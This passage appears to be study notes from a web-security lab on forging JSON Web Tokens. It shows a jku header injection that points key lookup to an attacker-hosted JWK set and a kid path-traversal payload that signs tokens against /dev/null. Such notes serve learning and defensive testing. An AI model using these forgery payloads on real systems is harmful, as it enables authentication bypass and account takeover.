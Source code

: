 As an example, try creating a new RSA key in JWT Editor and copying it. Then, replace the contents of the body in the exploit server to contain the keys:

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}
```

For it to work, replace the value of the `kid` parameter in the request to the one in the exploit server and add a new `jku` parameter to the header and set its value to the exploit server. 

```json
{
    "kid": "42971290-a070-4fe0-924a-af4e513b379d",
    "alg": "RS256",
    "jku": "https://exploit-0a2700f504d01bc18082d429016f00f8.exploit-server.net/exploit"
}
```

Finally, modify the payload, sign it with the RSA key without modifying headers and send the request.

>[!info]
>For the lab, this exploit works when the algorithm the application is using to sign the JWT token is Asymmetric like - "RS256"
# Kid Header Path Traversal

Severs can use cryptographic keys for signing different kinds of data. The header may contain a `kid` parameter to help identify which key to use. Verification keys are often stored as a JWK set where the server may simply look for the JWK with the same `kid` as the token.

The ID is just an arbitrary string that the dev chooses. A dev may use the `kid` parameter to point a particular entry in a databases or the name of a file. If the parameter is vulnerable to path traversal, you can force the server to use an arbitrary file from the filesystem as the key:

```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```

If the server supports JWTs signed using a symmetric algorithm, an attacker can point the `kid` parameter to a predictable, static file and sign the JWT using a secret matching the contents of the file. The `dev/null` could be used which is an empty string, meaning it would result in a valid signature with an empty string.
